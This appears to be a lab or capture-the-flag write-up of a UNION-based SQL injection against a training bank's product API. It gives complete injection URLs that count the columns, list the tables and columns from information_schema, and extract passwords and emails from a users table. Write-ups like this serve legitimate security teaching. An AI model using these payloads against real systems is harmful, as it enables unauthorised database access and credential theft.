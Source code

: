 First, we enumerate the number of columns that are pulled by the query. We accomplish this with a union select, increasing the number of columns until we no longer get an error.
`https://bigapp.quoccabank.com/api/v1/bproducts?q=A%27))%20union%20all%20select%201,2,3,4,5,6;%20--%20garbage`

![](images/Pasted%20image%2020210713164536.png)

Since all 6 columns are visible in the response, we are free to pick any columns as our output for in band exfiltration. First, we dump `information_schema.tables`:
`https://bigapp.quoccabank.com/api/v1/bproducts?q=A%27))%20union%20all%20select%201,table_name,3,4,5,6%20from%20information_schema.tables;%20--%20garbage`

![](images/Pasted%20image%2020210713164557.png)

We take special note of the `bproducts` and `users` table - the only non-default tables. 

From here, we can start dumping sensitive information, e.g.
`https://bigapp.quoccabank.com/api/v1/bproducts?q=A%27))%20union%20all%20select%201,column_name,3,4,5,6%20from%20information_schema.columns%20where%20table_name=%27users%27;%20--%20`
will dump the structure of the `users` table, which we can then loot:
![](images/Pasted%20image%2020210713164609.png)
`https://bigapp.quoccabank.com/api/v1/bproducts?q=A%27))%20union%20all%20select%20password,email,3,4,5,6%20from%20users;%20--%20garbage`
![](images/Pasted%20image%2020210713164642.png)
